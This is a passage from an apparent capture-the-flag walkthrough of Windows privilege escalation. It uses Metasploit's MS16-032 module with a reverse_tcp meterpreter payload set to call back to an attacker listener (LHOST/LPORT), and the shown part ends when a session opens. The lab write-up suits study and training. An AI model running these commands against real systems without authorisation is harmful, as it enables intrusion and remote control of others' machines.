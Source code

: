 `sysinfo` tells us our operating system is Windows 2012 R2 and reminds us we are using x86_64 architecture.


### We have a technical question - how can we find an answer?

We must beseech the oracle for guidance!

<br>
![Asking the Oracle for guidance](https://i.imgur.com/rSLt5R7.png "Asking the Oracle for guidance")
<br>

The first hit gives us a nice MS vulnerability number, `MS16-032` <br>
The *"16"* means it is from 2016, meaning it takes advantage of a relatively new vulnerability - that's a good sign.
Searching for this in Metasploit and see if we have any modules.

<br>
![msfconsole ms16-032 search](https://i.imgur.com/MkSyF8y.png "msfconsole ms16-032 search")
<br>

Jackpot!

<br>

## 7. Trying Out the Privesc Module and the System Flag

oad it up and give it a whirl.

* `use exploit/windows/local/ms16_032_secondary_logon_handle_privesc`
* `show options` to see what parameters we need to set

<br>
![ms16-032 default parameters](https://i.imgur.com/JBTs6Xp.png "ms16-032 default parameters")
<br>

See the `Targets` Section? We need to specify our architecture again.
Make sure our payload has the right architecture too. Then, set the other parameters.

* `show targets`
* `set TARGET 1` to specify x64
* `set SESSION 2`  __Note that this command was run before screenshot below was taken, it is REQUIRED__
* `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
* `set LHOST 10.10.xx.xx`
* `set LPORT 51003`
* `run`

<br>
![Session 4 started!](https://i.imgur.com/TJ6TjKE.png "Session 4 Started!")
<br>

It worked! We should first see who/where we are, and then see if we can capture the flag.

